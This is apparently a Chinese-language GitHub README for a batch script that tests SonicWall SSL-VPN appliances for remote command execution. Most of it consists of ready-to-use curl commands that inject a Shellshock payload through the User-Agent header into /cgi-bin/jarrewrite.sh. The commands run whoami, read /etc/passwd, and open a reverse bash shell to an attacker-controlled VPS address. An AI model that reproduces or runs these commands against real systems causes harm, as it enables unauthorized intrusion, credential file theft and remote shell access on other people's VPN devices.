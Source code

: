 # SonicWallSSL-VPN_RCE
一个简单的SonicWallSSL-VPN远程命令执行批量验证脚本
脚本写得比较简单，主要是对于批量url检测比较实用，单个url检测直接在命令行检测即可，

比如：

curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
